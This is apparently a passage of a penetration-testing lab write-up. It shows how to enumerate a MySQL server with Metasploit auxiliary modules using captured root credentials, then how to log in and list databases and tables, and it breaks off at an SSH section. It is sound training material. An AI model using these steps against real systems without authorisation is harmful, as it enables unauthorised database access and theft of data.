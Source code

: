 Now we perform mysql enumeration:

msf6:`search mysql_enum`

msf6:`use auxiliary/admin/mysql/mysql_enum`: Because its in the admin subdir, which means we need the credentials we obtained.

msf6:`set PASSWORD twinkle`

msf6:`set USERNAME root`

msf6:`run`

The next module is for executing sql queries

msf6:`search mysql_sql`: Here we also need credentials

msf6:`use auxiliary/admin/mysql/mysql_sql`

msf6:`set password twinkle`

msf6:`set username root`

Eventually we need to specify the "SQL" variable. select version() would be for extracting the version.

msf6:`run`

msf6:`set sql show databases;`: Sends a statement, Shows us the databases

msf6:`set SQL use videos;`

Module for learning more about the schema:

msf6:`search mysql_schema`

msf6:`use auxiliary/scanner/mysql/mysql_Schemadump`

msf6:`show options`

msf6:`set password twinkle`

msf6:`set username root`

msf6:`hosts`

msf6:`services`

msf6:`loot`

msf6:`creds`

msf6:`exit`

`mysql -h [targetIP] -u root -p` twinkle

Now we have access to the mysql database server.

`use videos;`

`show tables;`

## SSH Enumeration

